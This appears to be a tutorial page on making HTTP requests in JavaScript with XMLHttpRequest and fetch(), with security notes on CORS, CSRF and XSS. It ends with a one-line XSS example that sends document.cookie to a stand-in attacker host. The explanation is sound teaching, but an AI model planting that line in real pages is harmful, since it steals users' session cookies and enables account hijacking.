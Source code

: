 
The two main ways JavaScript performs HTTP requests are:
- **XMLHttpRequest (XHR)** – The **older** way, widely supported but more verbose.
- **Fetch API** – The **modern** way, with a cleaner and more flexible syntax.

## XMLHttpRequest (XHR)
The `XMLHttpRequest` object allows JavaScript to make **asynchronous HTTP requests** to a server without reloading the page. It was the core of AJAX (Asynchronous JavaScript and XML) before `fetch()` was introduced.

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://example.com/data", true);
xhr.onreadystatechange = function() {
    if (xhr.readyState === 4 && xhr.status === 200) {
        console.log(xhr.responseText); // Process response
    }
};
xhr.send();
```

Security considerations:
- **CORS Restrictions**: Modern browsers enforce **Same-Origin Policy (SOP)**, preventing requests to different domains unless the server explicitly allows it via **Cross-Origin Resource Sharing (CORS)** headers.
- **CSRF Attacks**: If an API endpoint lacks proper authentication (CSRF tokens, SameSite cookies), XHR can be exploited to make **unauthorized requests** on behalf of an authenticated user.
- **XSS & Data Exfiltration**: If an XSS vulnerability is present, an attacker could use XHR to **steal sensitive data** from the same origin.


## Fetch API (Modern Alternative)
Introduced in ES6(2016), the `fetch()` API provides a **simpler and more powerful** way to make HTTP requests.

**GET** request example:
```javascript
fetch("https://example.com/data")
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error("Fetch error:", error));
```

**POST** request example:
```javascript
fetch("https://example.com/api", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({ username: "admin", password: "1234" })
})
.then(response => response.json())
.then(data => console.log("Success:", data))
.catch(error => console.error("Error:", error));
```

Security considerations:
- **CORS (Same-Origin Policy Still Applies)**: Just like XHR, `fetch()` cannot bypass **CORS** restrictions without server-side permissions.
- **Credential Leaks**: By default, `fetch()` **does not send cookies** to cross-origin requests unless `credentials: "include"` is set.
- **XSS Risks**: If a vulnerable site allows **malicious JavaScript injection**, `fetch()` can be used to send stolen data to an attacker's server.

Example of an **XSS data exfiltration attack using fetch()**: 

```javascript
fetch('http://attacker.com/log?data=' + encodeURIComponent(document.cookie));
```

This sends the victim's **cookies** to an external server, potentially hijacking sessions.